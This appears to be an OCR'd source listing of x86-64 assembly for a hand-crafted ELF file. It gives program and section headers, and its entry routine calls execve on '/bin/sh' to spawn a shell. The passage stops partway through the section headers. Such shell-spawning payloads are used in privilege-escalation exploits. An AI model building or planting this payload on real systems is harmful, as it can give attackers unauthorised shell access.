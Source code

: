 ```
    phdr_dynamic:
        dd  2                     ; p_type
        dd  7                     ; p_flags
        dq  dynamic               ; p_offset
        dq  dynamic               ; p_vaddr
        dq  dynamic               ; p_paddr
        dq  dynamicsize           ; p_filesz
        dq  dynamicsize           ; p_memsz
        dq  0x1000                ; p_align

; org 0x1000
main:
_start:
    push rax
    push rdx
    push rsi
    push rbx
    xor rax,rax
    xor rdx, rdx
    xor rsi, rsi
    mov rbx,'/bin/sh'
    push rbx
    push rsp
    pop rdi
    mov al, 59
    syscall
    pop rbx
    pop rbx
    pop rsi
    pop rdx
    pop rax
    ret

mainsize = $ - main

sectionHeaders:
    section_dynsym:
          dd      1               ;sh_name
          dd      11              ;sh_type DYNSYM
          dq      7               ;sh_flags rx
          dq      dynsym          ;sh_addr
          dq      dynsym          ;sh_offset
          dq      dynsymsize      ;sh_size
          dd      3               ;sh_link
          dd      1               ;sh_info
          dq      1               ;sh_addralign
          dq      24              ;sh_entsize

    section_text:
          dd      19              ;sh_name
          dd      1               ;sh_type PROGBITS
          dq      7               ;sh_flags rx
          dq      main            ;sh_addr
          dq      main            ;sh_offset
          dq      mainsize        ;sh_size
          dd      3               ;sh_link
          dd      0               ;sh_info
          dq      1               ;sh_addralign
          dq      0               ;sh_entsize

    section_shstrtab:
          dd      9               ;sh_name
          dd      3               ;sh_type STRTAB
```
